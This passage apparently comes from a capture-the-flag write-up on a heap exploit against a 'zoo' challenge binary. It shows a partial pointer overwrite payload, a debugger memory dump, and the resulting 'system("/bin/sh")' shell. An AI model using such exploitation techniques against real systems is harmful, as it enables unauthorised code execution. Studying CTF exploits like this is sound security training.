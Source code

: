 then, we change the last byte of the address that `name` field in the `animal` struct chunk we overwritten, to `\x50`:
```
b'A' * 0x8 + b'\x50')
```
it looks like this internally:
```
02:0010│  0x7dbb320 —▸ 0x401120 (system@plt) ◂— endbr64 
03:0018│  0x7dbb328 ◂— 0x4141414141414141 ('AAAAAAAA')
04:0020│  0x7dbb330 —▸ 0x7dbb350 ◂— 0x68732f6e69622f /* '/bin/sh' */
```
finally when we `report_name`, the program does `speak(name)` but actually it does `system("/bin/sh")`!!!!
Therefore we get the shell!!!!!!!!!!!
```
2025/02/17 09:43.36: Zone number? (0-9)
> $ 2
$ ls
assembly  core  exp.py  ld-linux-x86-64.so.2  libc.so.6  solve.py  zoo  zoo.c
$  
```

